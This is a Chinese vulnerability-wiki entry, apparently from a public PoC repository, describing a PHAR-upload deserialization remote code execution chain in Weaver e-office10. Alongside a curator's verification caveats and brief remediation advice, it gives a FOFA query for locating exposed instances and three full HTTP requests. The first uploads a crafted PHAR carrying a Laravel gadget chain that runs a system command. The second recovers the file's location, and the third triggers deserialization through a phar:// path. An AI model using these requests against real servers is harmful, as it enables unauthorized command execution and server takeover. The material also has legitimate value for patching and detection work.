



# 泛微e-office10 PHAR上传→history定位→dingtalk-move反序列化远程代码执行链

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：泛微e-office10；PHAR上传→history定位→dingtalk-move反序列化RCE链
- 版本、配置及部署条件：v10.0_20180516 <产品< v10.0_20240222；PHP PHAR元数据行为/框架gadget/路径可达
- 认证与权限前提：声称无前置条件但多步附件流程必需
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- QVD错放cnvd；fofa残缺body=
- HTTP没有围栏；payload为{{unquote(...)}}模板DSL而不是原始HTTP字节，缺执行工具及编码说明
- attachment_id/日期/文件basename为硬编码实例，需说明响应推导；history只说时间戳未解释末级文件名
- 无前置条件过强，PHAR机制及PHP版本有限定；在野利用无来源

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

泛微E-Office10存在远程代码执行漏洞，攻击者可利用该漏洞获取服务器控制权限。该漏洞利用简单，无需前置条件，建议受影响的客户尽快修复漏洞。漏洞的关键在于系统处理上传的PHAR文件时存在缺陷。攻击者能够上传伪装的PHAR文件到服务器，利用PHP处理PHAR文件时自动进行的反序列化机制来触发远程代码执行。

## 影响范围

v10.0_20180516 <  E-Office10  < v10.0_20240222

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="eoffice_loading_tip" && body="eoffice10"


POC/EXP（上传phar序列化文件，获取响应体中attachment_id的值）：

```http
POST /eoffice10/server/public/api/attachment/atuh-file HTTP/1.1
Host: 127.0.0.1:8010
Content-Type: multipart/form-data; boundary=7188335fc2b1af077684a437664d25b9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*

--7188335fc2b1af077684a437664d25b9
Content-Disposition: form-data; name="Filedata"; filename="register.inc"
Content-Type: image/jpeg

{{unquote("<?php __HALT_COMPILER\x28\x29; ?>\x0d\x0a$\x01\x00\x00\x01\x00\x00\x00\x11\x00\x00\x00\x01\x00\x00\x00\x00\x00\xee\x00\x00\x00O:40:\"Illuminate\\Broadcasting\\PendingBroadcast\":2:\x7bs:9:\"\x00*\x00events\";O:25:\"Illuminate\\Bus\\Dispatcher\":1:\x7bs:16:\"\x00*\x00queueResolver\";s:6:\"system\";\x7ds:8:\"\x00*\x00event\";O:38:\"Illuminate\\Broadcasting\\BroadcastEvent\":1:\x7bs:10:\"connection\";s:6:\"whoami\";\x7d\x7d\x08\x00\x00\x00test.txt\x05\x00\x00\x00*\x1f\xa6a\x05\x00\x00\x00\xe9\x8f\xb1\xbb\xb4\x01\x00\x00\x00\x00\x00\x00tesat\xe5\xe4f7H\xe3\x9e\xa8\xf1>\xec\x90\xec\xc1\x10\xdfzw\x8f\xe4\x02\x00\x00\x00GBMB")}}
--7188335fc2b1af077684a437664d25b9--
```


POC/EXP（利用携带attachment_id的值，获取文件创建的时间戳）：

```http
POST /eoffice10/server/public/api/wps/v1/3rd/file/history HTTP/1.1
Host: 127.0.0.1:8010
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
x-weboffice-file-id: ac91ae5fbfc621c8bca370b09ac9b435
```





POC/EXP（利用Phar:// 伪协议读取phar序列化文件的命令执行结果）：

```http
POST /eoffice10/server/public/api/dingtalk/dingtalk-move?imgs=phar://../../../../attachment/2024/04/08/ac91ae5fbfc621c8bca370b09ac9b435/a6a7663b7788686b5c22ad6e5d9c43cd.inc HTTP/1.1
Host: 127.0.0.1:8010
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```








## 修复方案

**官方修复：**

临时缓解方案

如非必要，不要将 受影响系统 放置在公网上。或通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。

升级修复方案

官方已发布新版本修复漏洞，建议尽快使用服务管理平台升级到最新版或访问官网下载离线升级补丁（https://www.e-office.cn/）获取版本升级安装包或补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
